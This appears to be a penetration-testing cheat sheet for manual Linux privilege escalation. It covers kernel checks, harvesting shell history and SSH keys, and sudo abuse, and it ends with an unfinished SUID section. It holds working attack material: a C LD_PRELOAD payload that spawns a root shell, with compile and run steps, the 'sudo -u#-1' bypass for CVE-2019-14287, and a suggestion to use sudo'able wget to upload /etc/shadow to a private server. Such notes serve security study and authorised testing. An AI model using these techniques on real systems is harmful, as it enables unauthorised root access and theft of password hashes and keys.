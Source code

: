 # Manual Linux Privilege Escalation Checks

## [KERNEL EXPLOITS]

*An outdated kernel version may lead to easy wins.*

    uname -a


## [PASSWORDS AND FILE PERMISSIONS]

*A password or sensitive file disclosure can give us important information.*

### Stored Passwords

    history
    cat .bash_history


### Weak File Permissions

Look for **read or write** permissions to `/etc/shadow`

Look for **write** permission to `/etc/passwd`


### SSH Keys

    find / -name id_rsa 2>/dev/null
    find / -name authorized_keys 2>/dev/null
    
## [SUDO]

*Abusing sudo to gain root.*

### Sudo Shell Escaping

    sudo -l

Shell escape using an exploitable binary using [GTFOBins](https://gtfobins.github.io/)

### Intended Functionality

Is there any intended functionality we can abuse from a sudo'able binary? Example: use `wget` to upload the `/etc/shadow` file to our private server?

### `env_keep+=ENV_PRELOAD` is present

*We want to use the ENV_PRELOAD feature in order to preload a malicious payload.*

1. Create the following C script named `<NAME>.so`

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Compile it : `gcc -fPIC -shared -o <NAME>.so <NAME>.c -nostartfiles`

3. Set LD_PRELOAD as shell.so : `sudo LD_PRELOAD=<PATH TO SHELL FILE> <ANY SUDO'ABLE COMMAND>`

### Version Specific Exploits

#### Abusing CVE-2019-14287 (sudo version <1.8.28)

[CVE-2019-14287](https://www.exploit-db.com/exploits/47502) Comes in handy if we can sudo as any user, except root (`!root`).

1. Check sudo version: `sudo -V`

2. If the sudo version is below 1.8.28, use this command to run as root: `sudo -u#-1 <COMMAND>`

#### Abusing CVE-2019-18634 (sudo version <1.8.26)
[Exploit for CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634) 

1. Check sudo version: `sudo -V`

2. If the sudo version is below 1.8.26, check if `pwfeedback` is present.

3. Run the exploit.

## SUID

WIP
